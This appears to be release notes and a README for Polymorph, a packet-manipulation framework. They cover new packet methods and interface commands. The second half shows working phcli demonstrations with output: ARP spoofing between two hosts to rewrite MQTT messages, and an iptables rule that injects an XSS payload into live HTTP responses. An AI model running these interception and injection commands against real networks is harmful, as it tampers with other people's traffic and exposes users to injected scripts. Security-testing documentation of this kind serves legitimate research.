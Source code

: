 ## Polymorph Upgrade

```
pip3 install polymorph --upgrade
```

## Major changes

### 1. New methods added to the packet class
New methods have been added that can be accessed in the preconditions, postconditions and executions through the packet object.
```
packet.global_var(name, default_value): Create a global variable
packet.set_payload(raw_payload): Sets the bytes of the packet
packet.get_payload(): Return the bytes of the packet
packet.insert(start_byte, end_byte, value): inserts a value between bytes of the packet
```

### 2. Modification of preconditions postconditions and executions on disk
Now if from the main interface of Polymorph you use the command `precs -a prec1` where `prec1` is an existing precondition, the framework opens the existing precondition to be modified.

### 3. Insert preconditions, postconditions and executions from any system path
Now you can use the `precs/posts/execs -i path` command from the main Polymorph interface to insert `.py` files with the structure of the conditional functions from any system path.

### 4. Change the position of preconditions, postconditions and executions in a template
Now you can change the position of the conditional functions that have been added to a template, by executing the following command from the Polymorph main interface:
```
PH:cap/t0 > precs                                                               
new2
new3

PH:cap/t0 > precs -c new3 -p 0                                                  
PH:cap/t0 > precs                                                               
new3
new2
```

### 5. The Polymorph main interface no longer accepts command line parameters
Actions such as `# polymorph -t template.json` **are no longer supported**, now you can perform the import actions from the main interface of the framework:
```
PH > import -h                                                                  
Usage: import [-option]
      Import different objects in the framework, such as templates or captures.

      Options:
	-h		prints the help.
	-t		path to a template to be imported.
	-pcap		path to a pcap file to be imported
```

### 6. Added a command line interface. Phcli
A new component has been added to the Polymorph framework, a command line interface. Below are examples of use.
#### Modifying the MQTT protocol

Let's see how to use the Polymorph command line interface to spoof the communication between two machines and modify MQTT protocol.

 - Let's start by seeing how the Polymorph framework dissects the MQTT Publish packet.
```
# phcli -p mqtt --show-fields --in-pkt test_topic

[INFO] Waiting for a network packet which implements the MQTT protocol
[INFO] The packet will be dissected to show its fields
[OK] Sniffing process started. Waiting for packets...
[OK] Packet captured. Printing the fields...

---[ RAW.MQTT ]---
str hdrflags          = 0 (0x00000030)
int msgtype           = 48 (3)
int dupflag           = 48 (0)
int qos               = 48 (0)
int retain            = 48 (0)
int len               = 24 (24)
int topic_len         = 10 (10)
str topic             = test_topic (test_topic)
str msg               = test_message (test_message)
```

 - Now that we know how polymorph dissects the MQTT Publish packets and how it names the fields, we are going to modify the `msg` field by spoofing the two remote machines that communicate using MQTT.

```
# phcli -s arp -tg 192.168.1.102 -g 192.168.1.121 -p mqtt -f msg -v "new_value" --in-pkt "test_topic"

[OK] ARP spoofing started between 192.168.1.121 and 192.168.1.102
[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 75
  id        = 28767
  flags     = DF
  frag      = 0
  ttl       = 63
  proto     = tcp
  chksum    = 0x471e
  src       = 192.168.1.102
  dst       = 192.168.1.121
  \options   \
###[ TCP ]### 
     sport     = 49198
     dport     = 1883
     seq       = 4046645883
     ack       = 938260113
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 229
     chksum    = 0x7526
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (3643906, 1823353))]
###[ Raw ]### 
        load      = '0\x16\x00\ntest_topicnew_value'
```

#### Modifying the HTTP protocol

Let's see a last example modifying HTTP packages to inject a simple XSS in localhost. After executing the command simply navigate with your browser through an HTTP page.
```
# phcli -p tcp --in-pkt "</html>" -b "\-54:\-20" -v '"><script>alert("hacked")</script>' -ipt "iptables -A INPUT -j NFQUEUE --queue-num 1"

[INFO] Polymorph needs to capture a packet like the one you want to modify in real time to learn how it is.
[INFO] It will be in sniffing mode until you generate the packet
[OK] Sniffing mode started. Waiting for packets...
[INFO] Great! Polymorph has the structure of the packet! Let's start breaking things!
[OK] Process of interception and modification of packets in real time started.
[*] Waiting for packets...

(Press Ctrl-C to exit)

###[ IP ]### 
  version   = 4
  ihl       = 5
  tos       = 0x0
  len       = 898
  id        = 9382
  flags     = DF
  frag      = 0
  ttl       = 54
  proto     = tcp
  chksum    = 0xef66
  src       = 194.150.169.131
  dst       = 192.168.0.167
  \options   \
###[ TCP ]### 
     sport     = http
     dport     = 52210
     seq       = 3481765999
     ack       = 2589984605
     dataofs   = 8
     reserved  = 0
     flags     = PA
     window    = 2049
     chksum    = 0x3df4
     urgptr    = 0
     options   = [('NOP', None), ('NOP', None), ('Timestamp', (4180691237, 3065344385))]
###[ Raw ]### 
        load      = 'm Mongo\n10.  Elite World News by Dr. Dude\n11.  Elite World News by Dr. Dude\n\n\nComing soon...\n\n                                 Phrack Jolt!\n\n                       All the VMBs and TWICE the c0deZ!\n_______________________________________________________________________________\n</pre>\n\n</div>\n</div>\n\n</center>\n\n<div align="center" class="texto-2-bold">\n[ <a href="../../index.html" title="News">News</a> ]\n[ <a href="../../papers/dotnet_instrumentation.html" title="Paper Feed">Paper Feed</a> ]\n[ <a href="../../issues/69/1.html" title="Issues">Issues</a> ]\n[ <a href="../../authors.html" title="Authors">Authors</a> ]\n[ <a href="../../archives/" title="Archives">Archives</a> ]\n[ <a href="../../contact.html" title="Contact">Contact</a> ]\n</div>\n\n<div align="right" class="texto-1">\xc2\xa9 Copyl"><script>alert("hacked")</script>iv>\n</body>\n</html>\n'
```
